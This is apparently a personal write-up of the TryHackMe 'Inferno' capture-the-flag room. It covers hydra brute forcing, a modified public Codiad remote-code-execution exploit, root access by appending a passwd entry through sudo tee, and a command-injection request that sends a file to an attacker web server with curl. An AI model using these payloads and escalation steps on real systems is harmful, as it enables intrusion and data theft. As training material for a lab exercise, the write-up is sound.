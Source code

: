 # Inferno

https://tryhackme.com/room/inferno

"Real Life machine vs CTF. The machine is designed to be real-life and is perfect for newbies starting out in penetration testing" <- *not too sure about this.*

Enum for this machine was frustrating, as there were dozens of ports open. In fact, I usually use `nmap -sS -sV -vv` for recon but it took over an hour here to scan the whole box. Much better to use rustscan, which on the tryhackme machine can be run with docker as so:

  `docker run -it --rm --name rustscan rustscan/rustscan:latest -a 10.10.36.88 -- -sV`
  
In any event, only the two standard ports were actually open, 22 and 80. On 80 was a simple website with a quote from dante's inferno, and with a bit of enum via `gobuster`, a sub directory `/inferno` that was protected by basic auth.

No further enumeration returned anything else, not even a username - typically I don't like to randomly brute force username's AND passwords, but that was the next step here. Long story short, going with a short list of usernames or just random guessing might get you to running `hydra` like:

  `hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 10.10.105.168 -m /inferno http-get`
  
Which eventually revealed the password for admin.

On `/inferno` was an installation of a web ide called 'Codiad'. It showed a file directory under inferno, the tool itself. However, no paths were writable: even though Codiad supports creating or uploading files, trying to do so would fail.

The tool itself is out of support, and there are some CVEs against it unresolved. A quick DDG found https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit, but it wouldn't work as is - the tool was not setup to support basic auth.

In order to get it functioning, I modded the `exploit.py` file so whenever it used session.get or session.post, it would specify basic auth headers. E.g.:

  ```python
  response = session.post(url, data=data, verify=False)
  ```
  
  Became
  
  ```python
  headers = {
    "Authorization": "Basic etcetc"
  }
  response = session.post(url, data=data, headers=headers, verify=False)
  ```
 
Once I got a shell, I noted that it would periodically close, probably due to a cronjob somewhere. It looked like every minute. I was able to work with this however.

> **NOTE**: I go into detail on how this exploit works and alternatives at the end.

In the home directory was dante's folder, with the local.txt file being unreadable. I ran a `ls -laR` which found, under `/Downloads`, a `.download.dat`. In very CTF fashion (not real life pentest at all) this contained hexadecimal characters which I ran through cyberchef to reveal `dante`'s password.

At this point I dropped the exploit shell and just ssh'd in, getting the first flag.

Getting to root was easy: `sudo -l` revealed the user could run `/usr/bin/tee` as root without a password (even though I had the password). Tee sends its input to two outputs, and can both write and append. Being able to use it as root means I could use it to append to the `passwd` file, and I used a handy entry I keep around for just such an occasion which i put into a file called pass: `cat pass | sudo /usr/bin/tee -a /etc/passwd` with pass containing: `user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root:/bin/bash` (which has password `pass123`).

Once done, I just `su user3` with `pass123` to escalate to root. The final proof.txt was in /root. Easy.

## The codiad exploit.

If you're not a fan of scripts from random github repos, or want to exploit this yourself, heres how. Its actually not too hard, based on a blatant RCE, so you could get that `.download.dat` purely with something like burp, if you wished.

The vulnerable code is in the filemanager class, which you can browse via the codiad interface, specifically the files `/components/filemanager/controller.php` and `/components/filemanager/class.filemanager.php`. The first takes the action as a query parameter then uses the appropriate method from the second, in this case the search function.

The vulnerability is on line 243 of the filemanager class, within the search function:

  `$output = shell_exec('find -L ' . $this->path . ' -iregex  ".*' . $this->search_file_type  . '" -type f | xargs grep -i -I -n -R -H "' . $input . '"');`

Here, search filetype is one of the body parameters, along with the search term, and you can see its being concatted to a os command without escaping. So its basic command injection.

To exploit this is a bit tricky, since its blind: you can't get the response back through the call, at least as far as I could tell. Instead, you can use a trick: fire up a webserver on an accessible machine, e.g, via `python3 -m http.server 4444`.

Then, you can exfiltrate data, by passing a command like `cat /home/dante/Downloads/.download.dat | base64 -w0 | xargs -I T curl 10.10.126.249:4444/?x=T`, which will read that download.dat file, base 64 encode it, then pass it to a curl request to your webserver (where you will see the request arrive with a big payload in the querystring).

I've used this technique before to enumerate a machine, as a wonky remote shell. Via this you could run `ls -laR` to find download.dat, download and run msfvenom packages, examine running processes etc - anything you can encode and xarg into curl and pass into that http body without breaking the request format.

So, back to the vulnerable component: to call this, and do the above, here is the raw http request. Its basically a post to that controller endpoint, with the basic auth header, the codiad cookie (so you will need to log in at least once), and the (unencoded!) body:

```http
POST /inferno/components/filemanager/controller.php?type=1&action=search&path=/var/www/html/inferno HTTP/1.1
Host: 10.10.71.248
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: Basic {username:password in base64}
Cookie: 99300f2078c94e495d72b82a732ea6db=gu0fv4ear8rsifistrnrcnes1o
Content-Length: 140

search_string=Hacker&search_file_type="%0Acat /home/dante/Downloads/.download.dat | base64 -w0 | xargs -I T curl 10.10.126.249:4444/?x=T %23
```
